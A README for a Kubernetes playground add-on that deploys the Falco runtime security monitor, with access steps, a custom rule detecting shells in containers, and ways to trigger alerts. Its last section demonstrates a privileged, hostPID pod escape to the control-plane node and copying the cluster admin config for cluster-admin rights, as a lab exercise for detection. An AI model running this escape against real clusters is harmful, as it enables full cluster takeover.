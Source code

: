 # Add-On: Falco

- [Add-On: Falco](#add-on-falco)
  - [Deploy](#deploy)
  - [Access](#access)
  - [Try it](#try-it)
    - [Generate some events](#generate-some-events)
    - [Fun with privileged mode](#fun-with-privileged-mode)

Ultra fast and slim kubernetes playground.

## Deploy

The deployment of Falco runtime security is very straigt forward with the playground. Simply execute the script `deploy-falco.sh`, everything else is prepared.

> Note for MacOS: Falco is currently unsupported on MacOS

```sh
$ ./deploy-falco.sh
```

Falco is integrated with Prometheus and Grafana as well. A Dashboard is available for import with the ID 11914.

![alt text](../images/falco-grafana.png "Grafana Dashboard")

## Access

Follow the steps for your platform below. A file called `services` is either created or updated with the link and the credentials to connect to smartcheck.

***Linux***

By default, the Falco UI is on port 8082.

Example:

`Falco UI on: http://192.168.1.121:8082/ui/#/`

***Cloud9***

See: [Access Smart Check (Cloud9)](./add-on-container-security.md#access-smart-check), but use the `proxy_listen_port`s configured in your config.json (default: 8082) and choose Source Anywhere. Don't forget to check your inbound rules to allow the port.

Alternatively, you can get the configured port for the service with `cat services`.

Access to the services should then be possible with the public ip of your Cloud9 instance with your configured port(s).

Examle

`Falco UI: <http://YOUR-CLOUD9-PUBLIC-IP:8082/ui/#/>`

## Try it

To test the k8s auditing try to create a configmap:

```sh
$ cat <<EOF | kubectl apply -f -
apiVersion: v1
data:
  ui.properties: |
    color.good=purple
    color.bad=yellow
    allow.textmode=true
  access.properties: |
    aws_access_key_id = AKIAXXXXXXXXXXXXXXXX
    aws_secret_access_key = 1CHPXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
kind: ConfigMap
metadata:
  name: awscfg
EOF
```

If you want to test out own falco rules, create a file called `falco/additional_rules.yaml` write your rules. It will be included when running `deploy-falco.sh`.

Example:

```yaml
- macro: container
  condition: container.id != host

- macro: spawned_process
  condition: evt.type = execve and evt.dir=<

- rule: (AR) Run shell in container
  desc: a shell was spawned by a non-shell program in a container. Container entrypoints are excluded.
  condition: container and proc.name = bash and spawned_process and proc.pname exists and not proc.pname in (bash, docker)
  output: "Shell spawned in a container other than entrypoint (user=%user.name container_id=%container.id container_name=%container.name shell=%proc.name parent=%proc.pname cmdline=%proc.cmdline)"
  priority: WARNING
```

### Generate some events

```sh
$ docker run -it --rm falcosecurity/event-generator run syscall --loop
```

### Fun with privileged mode

```sh
$ function shell () {
  kubectl run shell --restart=Never -it --image mawinkler/kod:latest \
  --rm --attach \
  --overrides \
    '
    {
      "spec":{
        "hostPID": true,
        "containers":[{
          "name":"kod",
          "image": "mawinkler/kod:latest",
          "imagePullPolicy": "Always",
          "stdin": true,
          "tty": true,
          "command":["/bin/bash"],
          "nodeSelector":{
            "dedicated":"master"
          },
          "securityContext":{
            "privileged":true
          }
        }]
      }
    }
    '
}
```

You can paste this into a new file `shell.sh` and source the file.

```sh
$ . ./shell.sh
```

Then you can type the following to demonstrate a privilege escalation in Kubernetes.

```sh
$ shell
```

If you don't see a command prompt, try pressing enter.

```sh
root@shell:/# godmode
root@playground-control-plane:/# 
```

You're now on the control plane of the cluster and should be kubernetes-admin.

If you're wondering what you can do now...

```sh
$ mkdir -p /root/.kube
$ cp /etc/kubernetes/admin.conf /root/.kube/config
$ kubectl auth can-i create deployments -n kube-system
```

```sh
$ kubectl create deployment echo --image=inanimate/echo-server
$ kubectl get pods
```

